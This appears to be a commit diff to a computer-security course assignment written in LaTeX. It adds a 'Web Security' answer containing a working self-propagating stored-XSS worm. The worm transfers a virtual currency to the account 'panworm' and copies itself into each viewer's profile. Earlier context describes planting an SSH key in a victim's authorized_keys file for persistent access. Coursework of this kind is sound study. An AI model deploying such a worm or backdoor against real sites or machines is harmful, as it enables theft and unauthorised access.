

Before and after one commit to wmak/Notes, a LaTeX document (CSC/D27/A3/A3.tex): part of the page before the commit and two parts of pages 1 and 2 of 2 after it, the two joined at a grey line, cut so that both start at the same text, the shorter picture padded with empty space. Compiled offline with pdfLaTeX.

Commit message:
whoot whoot

```diff
--- a/CSC/D27/A3/A3.tex
+++ b/CSC/D27/A3/A3.tex
@@ -53,4 +53,30 @@ into their "\$HOME/.ssh/authorized\_keys" file and add my own ssh key. This way
 later on I would be able to ssh into their computer without needing their
 password.
 
+\section{Web Security}
+\begin{enumerate}
+	\item
+		The profile for this worm would be the following:
+\begin{verbatim}
+		Totally okay account
+		<a id="pancoins" class="
+		a = new XMLHttpRequest();
+		a.open('POST', 'transfer.php');
+		var b= new FormData();
+		b.append('pancoins',1);
+		b.append('recipient', 'panworm');
+		b.append('submission', 'Send');
+		a.send(b);
+		c = new XMLHttpRequest();
+		c.open('POST', 'index.php');
+		var d= new FormData();
+		d.append('profile_update',
+		document.getElementById('pancoins').outerHTML
+		);
+		d.append('profile_submit', 'Update');
+		c.send(d);
+		alert('thanks for all the fish')">
+\end{verbatim}
+\end{enumerate}
+
 \end{document}
```
